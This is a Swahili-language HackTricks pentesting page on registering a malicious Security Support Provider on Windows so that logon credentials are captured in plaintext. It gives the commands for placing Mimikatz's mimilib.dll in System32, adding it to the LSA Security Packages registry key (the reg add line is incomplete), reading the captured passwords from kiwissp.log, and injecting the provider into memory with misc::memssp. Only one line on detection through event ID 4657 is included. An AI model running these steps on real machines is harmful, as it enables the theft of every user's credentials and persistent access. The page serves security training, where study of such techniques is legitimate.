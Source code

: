 # Custom SSP

{{#include ../../banners/hacktricks-training.md}}

### Custom SSP

[Learn what is a SSP (Security Support Provider) here.](../authentication-credentials-uac-and-efs/#security-support-provider-interface-sspi)\
Unaweza kuunda **SSP yako mwenyewe** ili **kukamata** katika **maandishi wazi** **akili** zinazotumika kufikia mashine.

#### Mimilib

Unaweza kutumia `mimilib.dll` binary inayotolewa na Mimikatz. **Hii itarekodi ndani ya faili akili zote katika maandiko wazi.**\
Tupa dll katika `C:\Windows\System32\`\
Pata orodha ya Pakiti za Usalama za LSA zilizopo:
```bash:attacker@target
PS C:\> reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"

HKEY_LOCAL_MACHINE\system\currentcontrolset\control\lsa
Security Packages    REG_MULTI_SZ    kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u
```
Ongeza `mimilib.dll` kwenye orodha ya Watoa Huduma za Usalama (Security Packages):
```powershell
reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages"
```
Na baada ya kuanzisha upya, sifa zote zinaweza kupatikana kwa maandiko wazi katika `C:\Windows\System32\kiwissp.log`

#### Katika kumbukumbu

Unaweza pia kuingiza hii moja kwa moja katika kumbukumbu ukitumia Mimikatz (zingatia kwamba inaweza kuwa na kutokuwa thabiti/kutofanya kazi):
```powershell
privilege::debug
misc::memssp
```
Hii haitadumu baada ya kuanzisha upya.

#### Kupunguza

Event ID 4657 - Ukaguzi wa uundaji/mabadiliko ya `HKLM:\System\CurrentControlSet\Control\Lsa\SecurityPackages`

{{#include ../../banners/hacktricks-training.md}}
